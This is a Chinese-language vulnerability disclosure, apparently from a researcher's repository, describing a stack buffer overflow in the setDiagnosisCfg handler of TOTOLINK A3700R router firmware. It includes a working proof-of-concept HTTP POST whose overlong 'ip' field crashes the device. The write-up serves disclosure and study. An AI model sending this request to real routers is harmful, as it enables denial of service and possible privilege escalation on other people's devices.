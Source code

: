 

### **概述**：
影响设备：totolink A3700R
影响固件版本：V9.1.2u.6165_20211012
影响：堆栈溢出，可以造成拒绝服务和权限提升
固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>
报送邮箱 : zwx918569613@gmail.com

![](Pasted%20image%2020231022165035.png)

### **漏洞**：
该漏洞位于`cstecgi.cgi`中的函数`FUN_00422a38`，函数别名`setDiagnosisCfg`


![](Pasted%20image%2020231023202539.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里对传入命令合法性进行了验证，过滤了命令注入的漏洞
但是并未对传入的参数`ip`进行长度限制，而`sprintf`格式化拼接参数`ip`到变量`acStack_90`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 507
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{
"topicurl": "setting/setDiagnosisCfg",
"ip":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
~~~

### **影响效果**：


![](Pasted%20image%2020231023202309.png)